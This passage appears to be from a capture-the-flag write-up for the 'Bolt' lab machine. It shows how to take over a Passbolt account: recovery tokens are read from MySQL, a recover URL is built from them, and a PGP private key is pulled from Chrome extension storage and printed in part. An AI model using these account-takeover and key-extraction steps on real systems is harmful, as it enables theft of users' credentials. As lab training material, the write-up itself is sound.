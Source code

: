 To get a recover token we first need to request one by putting in eddies mail (`eddie@bolt.htb`) on `https://passbolt.bolt.htb`.
Requesting the authentication tokens from mysql now displays the new ones. In this output we did it for eddie and clark but clarks was not needed later:

```
id      token   user_id active  created modified        type    data
015b22eb-694f-4c94-a97d-0c87d69017ed    a7b19b6b-9f7f-482b-b677-b284ad5d6a29    4e184ee6-e436-47fb-91c9-dccb57f250bc    0       2021-02-25 22:31:57     2021-02-25 22:31:58     login   NULL
01f0bfe8-d469-430b-9d88-3a0ee3663425    c8e03570-71bf-4989-8096-cbbafe06065a    9d8a0452-53dc-4640-b3a7-9a3d86b0ff90    1       2021-09-26 21:48:41     2021-09-26 21:48:41     recover NULL
463f2e84-1f36-4e2f-ac0d-0010b96edee3    f861c953-aac8-4902-88da-5d17aca0ffde    9d8a0452-53dc-4640-b3a7-9a3d86b0ff90    0       2021-02-25 21:41:46     2021-02-25 21:41:47     login   NULL
57bb11fb-01e5-413c-9442-1d9bc480dbfb    cb900e0b-c602-4da7-acb6-f1daec248836    4e184ee6-e436-47fb-91c9-dccb57f250bc    0       2021-02-25 21:49:38     2021-02-25 21:49:39     login   NULL
5bb9d763-c95c-4986-9119-542133e3279c    5779bcad-2c17-487c-bf01-8168a3b20393    9d8a0452-53dc-4640-b3a7-9a3d86b0ff90    0       2021-02-25 21:40:29     2021-02-25 21:41:14     register  NULL
8157bd88-f0f4-463e-94d2-e61afdd1dc67    a42a1eeb-509e-4cb2-9877-6159ef4d6aa2    4e184ee6-e436-47fb-91c9-dccb57f250bc    1       2021-09-26 21:48:28     2021-09-26 21:48:28     recover NULL
feb08771-2e55-43d8-92bc-d4a34d403273    8c7d2952-1598-420d-a666-fdece8f02bfc    4e184ee6-e436-47fb-91c9-dccb57f250bc    0       2021-02-25 21:42:50     2021-02-25 21:49:38     register  NULL
```

We know `4e184ee6-e436-47fb-91c9-dccb57f250bc` is eddies user_id from the `users` table. So `8c7d2952-1598-420d-a666-fdece8f02bfc` is his recover token.

So this is our request:
`https://passbolt.bolt.htb/setup/recover/4e184ee6-e436-47fb-91c9-dccb57f250bc/8c7d2952-1598-420d-a666-fdece8f02bfc`

In the next step to recover his account we need his private key. You can't recreate the private key and it isn't saved on the passbolt server either so the only way to find it would be a personal backup somewhere or saved in his google-chrome extension.

Linpeas and [this forum thread](https://community.passbolt.com/t/recover-private-key-from-disk-image/1412/2) helped to find the file we were looking for:

`/home/eddie/.config/google-chrome/Default/Local Extension Settings/didegimhafipceonhjepacocaffmoppf/000003.log`

We can extract his private key from it, you only need to get rid of some special characters and linebreaks:
```
-----BEGIN PGP PRIVATE KEY BLOCK-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

xcMGBGA4G2EBCADbpIGoMv+O5sxsbYX3ZhkuikEiIbDL8JRvLX/r1KlhWlTi
fjfUozTU9a0OLuiHUNeEjYIVdcaAR89lVBnYuoneAghZ7eaZuiLz+5gaYczk
cpRETcVDVVMZrLlW4zhA9OXfQY/d4/OXaAjsU9w+8ne0A5I0aygN2OPnEKhU
RNa6PCvADh22J5vD+/RjPrmpnHcUuj+/qtJrS6PyEhY6jgxmeijYZqGkGeWU
+XkmuFNmq6km9pCw+MJGdq0b9yEKOig6/UhGWZCQ7RKU1jzCbFOvcD98YT9a
If70XnI0xNMS4iRVzd2D4zliQx9d6BqEqZDfZhYpWo3NbDqsyGGtbyJlABEB
AAH+CQMINK+e85VtWtjguB8IR+AfuDbIzHyKKvMfGStRhZX5cdsUfv5znicW
UjeGmI+w7iQ+WYFlmjFN/Qd527qOFOZkm6TgDMUVubQFWpeDvhM4F3Y+Fhua
jS8nQauoC87vYCRGXLoCrzvM03IpepDgeKqVV5r71gthcc2C/Rsyqd0BYXXA
iOe++biDBB6v/pMzg0NHUmhmiPnSNfHSbABqaY3WzBMtisuUxOzuvwEIRdac
2eEUhzU4cS8s1QyLnKO8ubvD2D4yVk+ZAxd2rJhhleZDiASDrIDT9/G5FDVj
QY3ep7tx0RTE8k5BE03NrEZi6TTZVa7MrpIDjb7TLzAKxavtZZYOJkhsXaWf
DRe3Gtmo/npea7d7jDG2i1bn9AJfAdU0vkWrNqfAgY/r4j+ld8o0YCP+76K/
7wiZ3YYOBaVNiz6L1DD0B5GlKiAGf94YYdl3rfIiclZYpGYZJ9Zbh3y4rJd2
AZkM+9snQT9azCX/H2kVVryOUmTP+uu+p+e51z3mxxngp7AE0zHqrahugS49
tgkE6vc6G3nG5o50vra3H21kSvv1kUJkGJdtaMTlgMvGC2/dET8jmuKs0eHc
Uct0uWs8LwgrwCFIhuHDzrs2ETEdkRLWEZTfIvs861eD7n1KYbVEiGs4n2OP
yF1ROfZJlwFOw4rFnmW4Qtkq+1AYTMw1SaV9zbP8hyDMOUkSrtkxAHtT2hxj
XTAuhA2i5jQoA4MYkasczBZp88wyQLjTHt7ZZpbXrRUlxNJ3pNMSOr7K/b3e
IHcUU5wuVGzUXERSBROU5dAOcR+lNT+Be+T6aCeqDxQo37k6kY6Tl1+0uvMp
```